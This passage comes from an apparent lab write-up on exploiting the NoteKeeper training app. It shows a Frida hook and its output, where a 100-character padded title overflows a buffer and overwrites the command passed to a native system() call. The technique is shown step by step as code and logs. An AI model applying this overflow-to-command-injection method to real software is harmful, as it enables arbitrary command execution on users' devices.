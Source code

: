 After adding this, I managed to read some information from the `system` function.

```powershell
PS E:\Desktop\Android\frida-script> frida -U -N com.mobilehackinglab.notekeeper -l a.js
     ____
    / _  |   Frida 16.5.9 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to POCOPHONE F1 (id=d211a91c)
[POCOPHONE F1::com.mobilehackinglab.notekeeper ]-> MainActivity.parse is called: Title=q
[*] system() called with command: Log "Note added at $(date)"
             0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F  0123456789ABCDEF
7ff3ad0850  4c 6f 67 20 22 4e 6f 74 65 20 61 64 64 65 64 20  Log "Note added
7ff3ad0860  61 74 20 24 28 64 61 74 65 29 22 00 00 00 00 00  at $(date)".....
7ff3ad0870  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
[*] system() returned with code: 0x7f00
MainActivity.parse result=Q
```

I managed to read the `system` function input by using the frida script. Now the only thing that I should do is just performing buffer overflow to rewrite the `system` function input. I started out by trying to add 101 characters to see how it works. I rewrite the frida script to make things easier.

```js
let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
MainActivity["parse"].implementation = function (Title) {
    Title = "A".repeat(100) + "B";
    console.log(`MainActivity.parse is called: Title=${Title}`);
    let result = this["parse"](Title);
    console.log(`MainActivity.parse result=${result}`);
    return result;
};

```

```powershell
PS E:\Desktop\Android\frida-script> frida -U -N com.mobilehackinglab.notekeeper -l a.js
     ____
    / _  |   Frida 16.5.9 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to POCOPHONE F1 (id=d211a91c)
[POCOPHONE F1::com.mobilehackinglab.notekeeper ]-> MainActivity.parse is called: Title=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
[*] system() called with command: Bog "Note added at $(date)"
             0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F  0123456789ABCDEF
7ff3ad0850  42 6f 67 20 22 4e 6f 74 65 20 61 64 64 65 64 20  Bog "Note added
7ff3ad0860  61 74 20 24 28 64 61 74 65 29 22 00 00 00 00 00  at $(date)".....
7ff3ad0870  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
[*] system() returned with code: 0x7f00
MainActivity.parse result=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
```
